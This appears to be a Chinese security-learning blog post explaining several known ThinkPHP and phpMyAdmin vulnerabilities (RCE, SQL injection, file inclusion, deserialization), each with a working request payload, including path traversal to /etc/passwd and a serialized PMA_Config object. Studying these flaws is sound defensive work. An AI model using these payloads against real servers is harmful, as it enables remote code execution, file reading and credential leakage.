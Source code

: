 ```yaml
---
title: ThinkPHP & phpMyAdmin 漏洞学习
date: 2020-07-29 19:58:27
tags:
  - PHP
categories:
  - Web 安全
---
```


包含 ThinkPHP 5.x RCE / ThinkPHP 5.0.23 RCE / ThinkPHP 2.x RCE / ThinkPHP 5.x SQL 注入导致敏感信息泄露 / phpMyAdmin 4.8.1 远程文件包含 / phpMyAdmin 4.0.x-4.6.2 认证用户 RCE / phpMyAdmin 2.x setup.php 反序列化

<!--more-->

## ThinkPHP 5.x RCE

[参考](https://xz.aliyun.com/t/3570)

Controller 中没有过滤掉 `\`，但命名空间恰好需要用到 `\`，因此可以调用任意类的方法达到 RCE。

```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 1](1.png)

## ThinkPHP 5.0.23 RCE

[参考](https://xz.aliyun.com/t/3845)

获取 HTTP 请求类型时没有过滤，导致可以调用任意方法，参数为 POST 的数据。因此可以调用 `Request` 类的构造函数，覆盖其成员属性 `method, filter, get`，最终调用 `call_user_func` 实现 RCE。

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&get[]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

```
POST /?s=captcha HTTP/1.1
...

_method=__construct&filter[]=printf&method=get&server[REQUEST_METHOD]=b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327
```

![图 2](2.png)

## ThinkPHP 2.x RCE

[参考](http://since1994.cn/?p=281)

`preg_replace` 的 `/e` 模式允许用户输入的参数被执行，造成 RCE。

```
POST /?s=1/2/3/${eval($_POST[merc])} HTTP/1.1
...

merc=printf(b769a6983b42d565e79bb4f3f534623453f301d39784e57804a649a67ea05327);
```

![图 3](3.png)

> ThinkPHP 3.0 Lite 模式下同样存在漏洞。

## ThinkPHP 5.x SQL 注入导致敏感信息泄露

[参考](https://xz.aliyun.com/t/125)

PDO 查询时如果在查询条件中遇到了 `in` ，就会遍历传入数组 `ids` 的 key 和 value，而前者在预编译时并没有进行过滤，可以导致预编译结果出错。在 debug 模式开启时（默认），此时的报错会泄露数据库用户名和密码。

```
/index.php?ids[1,updatexml(1,concat(0x7e,md5(1),0x7e),1)]=1
```

![图 4](4.png)

## phpMyAdmin 4.8.1 远程文件包含 CVE-2018-12613

[参考](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

代码中存在文件包含，只需要绕过条件判断中的白名单。判断函数利用 `?` 截断 GET 参数，并且还会进行 URL 解码，因此利用二次 URL 编码 `%253f` 即可绕过白名单，同时读取任意文件。

```
/index.php?target=db_sql.php%253f/../../../../etc/passwd
```

![图 5](5.png)

随后，执行 `select <?=phpinfo()?>;`，抓包获取当前 session，随后访问 session 文件即可执行对应 php 代码：

```
/index.php?target=db_sql.php%253f/../../../../tmp/sess_1ee714d1373e5caad9faf122e9ad1798
```

![图 6](6.png)

## phpMyAdmin 4.0.x-4.6.2 认证用户 RCE CVE-2016-5734

实际影响版本：

- 4.0.x < 4.0.10.16
- 4.4.x < 4.4.15.7
- 4.6.x < 4.6.3

[参考](https://larry.ngrep.me/2016/09/21/cve-2016-5734-analysis/)

这个问题实际上是 PHP 5.4.7 的 `preg_replace` 函数的问题。当使用类似如下代码时：

```php
preg_replace('/'.$user_input.'/i', $replace, $text);
```

我们可以输入 `/e\0` 来注入 `/e` 修饰符，同时截断后面的内容来达成 RCE。

在 phpMyAdmin 中利用这个漏洞，需要知道系统的用户名密码：[exp](https://www.exploit-db.com/exploits/40185)

![图 7](7.png)

## phpMyAdmin 2.x setup.php 反序列化

[参考](https://rj45mp.github.io/phpMyAdmin-WooYun-2016-199433/)

在 `/scripts/setup.php` 中没有对 `configuration` 参数进行过滤就进行了反序列化，因此可以注入一个 `PMA_Config` 对象，在构造函数中引入其成员变量 `source` 并通过 `eval` 执行。既可以读取文件，也可以通过已有文件执行代码。

以读取 `/etc/passwd` 为例：

```php
<?php
class PMA_Config {
  public $source = "/etc/passwd";
}

$data = new PMA_Config();
echo serialize($data);

?>
```

运行可以得到：

```
O:10:"PMA_Config":1:{s:6:"source";s:11:"/etc/passwd";}
```

![图 8](8.png)

之后可以进一步通过 ftp 协议写 shell。

